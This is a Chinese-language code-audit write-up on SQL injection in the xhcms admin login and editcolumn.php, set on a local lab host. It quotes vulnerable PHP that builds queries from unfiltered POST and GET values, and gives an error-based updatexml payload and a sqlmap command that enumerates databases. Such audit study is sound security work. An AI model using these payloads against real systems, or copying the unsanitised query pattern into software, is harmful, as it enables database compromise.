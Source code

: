 
这里需要去利用admin的登陆页面

```
http://192.168.121.130/xhcms/admin/?r=login
```

```
关键代码：
$login=$_POST['login'];			//参数直接由POST获取，无任何过滤
$user=$_POST['user'];
$password=$_POST['password'];
$checkbox=$_POST['checkbox'];

$query = "SELECT * FROM manage WHERE user='$user'";
$result = mysql_query($query) or die('SQL语句有误：'.mysql_error());
$users = mysql_fetch_array($result);

$passwords=$users['password'];
if(md5($password)<>$passwords)	//将输入的password的md5值进行匹配
{
	echo "<Script language=JavaScript>alert('抱歉，用户名或者密码错误。');history.back();</Script>";
	exit;	
}
```

查询的sql语句是在user这个地方,并且这里参数除了用单引号闭合并没有其他过滤处理了

这里开启了mysql_error()，可以进行报错注入,注入点在user

```
1' or updatexml(1,concat(0x7e,(select database()),0x7e),1)#
```

![image-20210923114917909](/Users/DawnT0wn/Library/Application Support/typora-user-images/image-20210923114917909.png)

用sqlmap探测也可以这里

```
python sqlmap.py -r 1.txt --dbs --batch
```

报错方式和注入点sqlmap也给了出来

![image-20210923120255569](/Users/DawnT0wn/Library/Application Support/typora-user-images/image-20210923120255569.png)

不过这里跑了好久

![image-20210923120136583](/Users/DawnT0wn/Library/Application Support/typora-user-images/image-20210923120136583.png)

### /admin/files/editcolumn.php

```
<?php
require '../inc/checklogin.php';
require '../inc/conn.php';
$columnopen='class="open"';
$id=$_GET['id'];
$type=$_GET['type'];

if ($type==1){
$query = "SELECT * FROM nav WHERE id='$id'";
$resul = mysql_query($query) or die('SQL语句有误：'.mysql_error());
$nav = mysql_fetch_array($resul);
}
if ($type==2){
$query = "SELECT * FROM navclass WHERE id='$id'";
$resul = mysql_query($query) or die('SQL语句有误：'.mysql_error());
$nav = mysql_fetch_array($resul);
}
```